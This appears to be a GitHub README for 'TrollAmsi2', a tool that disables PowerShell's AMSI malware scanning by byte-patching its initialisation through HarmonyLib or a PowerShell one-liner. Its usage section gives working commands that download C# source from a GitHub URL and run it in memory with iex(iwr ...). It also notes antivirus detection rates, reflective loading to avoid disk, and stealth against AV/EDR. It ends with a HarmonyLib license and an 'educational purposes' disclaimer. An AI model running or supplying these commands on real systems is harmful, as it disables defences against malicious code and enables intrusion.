 # TrollAmsi2
Bypass powershell amsi by "byte patching" the init method -> basically break it. \
Afterwhich, we manually call UnInit and when it retries to re-Init properly, it fails \

**DLL Method**
- This is the preferred method which uses HarmonyLib \
- compile TrollAmsi2.cs into a .dll and use with 0Harmony.dll (Both are 0/72 on virus total and clean on hybrid-analysis) \
- If you are concerned with dropping on disk, ofcourse you can reflectively load\

**powershell one liner**
- Use trollamsi2.ps1 \
- Not as stealthy as TrollAMSI due to the use of VirtualProtect which gets flagged by some AV/EDRs during the $lib add-type \
  
## Usage 
```
#DLL method 
$assembly = [System.Reflection.Assembly]::LoadFrom("C:\0Harmony.dll")
$code = (iwr https://github.com/cybersectroll/TrollAmsi2/raw/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
Add-Type -TypeDefinition $code -ReferencedAssemblies "C:\0Harmony.dll"
[TrollAmsi2]::SmokeOut()

#powershell one liner
iex(iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI2/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
```

## MIT License for HarmonyLib
MIT License

Copyright (c) 2017 Andreas Pardeike

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
Should only be used for educational purposes!
